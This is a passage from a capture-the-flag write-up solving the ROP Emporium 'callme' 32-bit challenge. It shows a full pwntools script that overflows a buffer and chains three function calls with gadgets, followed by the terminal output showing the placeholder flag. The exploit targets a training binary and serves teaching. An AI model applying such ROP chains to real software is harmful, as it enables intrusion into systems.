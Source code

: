 Lets automate our exploit,

```c
from pwn import *
bin=ELF('./callme32')
p=process('./callme32')
arg1=p32(0xdeadbeef)
arg2=p32(0xcafebabe)
arg3=p32(0xd00df00d)
callme_one=p32(bin.symbols['callme_one'])
callme_two=p32(bin.symbols['callme_two'])
callme_three=p32(bin.symbols['callme_three'])
rop=ROP(bin)
gadget=rop.esi_edi_ebp
gadget=p32(gadget.address)
buff=""
buff+='A'*44
buff+=callme_one
buff+=gadget
buff+=arg1+arg2+arg3
buff+=callme_two
buff+=gadget
buff+=arg1+arg2+arg3
buff+=callme_three
buff+=gadget
buff+=arg1+arg2+arg3
p.sendline(buff)
p.interactive()
```

Lets try running this,

```c
ra@moni:~/callme32$ python2 exp32-auto.py
[*] '/home/ra/callme32/callme32'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
    RUNPATH:  '.'
[+] Starting local process './callme32': pid 22821
[*] Loaded 10 cached gadgets for './callme32'
[*] Switching to interactive mode
[*] Process './callme32' stopped with exit code 0 (pid 22821)
callme by ROP Emporium
x86

Hope you read the instructions...

> Thank you!
callme_one() called correctly
callme_two() called correctly
ROPE{a_placeholder_32byte_flag!}
[*] Got EOF while reading in interactive
$
```

Done! we have completed "callme" 32 bit challenge

